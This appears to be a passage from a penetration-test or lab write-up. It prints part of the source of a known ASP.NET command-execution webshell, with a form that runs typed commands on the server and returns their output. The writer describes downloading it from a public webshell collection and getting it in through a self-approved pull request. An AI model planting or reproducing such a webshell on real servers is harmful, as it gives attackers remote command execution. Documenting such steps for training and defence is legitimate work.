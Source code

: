 ```aspnet
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```

The asp.net webshell by Dominic Chell, downloaded from [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx).

![](../../.gitbook/assets/11-test-upload-approve.png)

After I submitted the pull request I had to approve it.  Luckily this user had the necessary permissions.
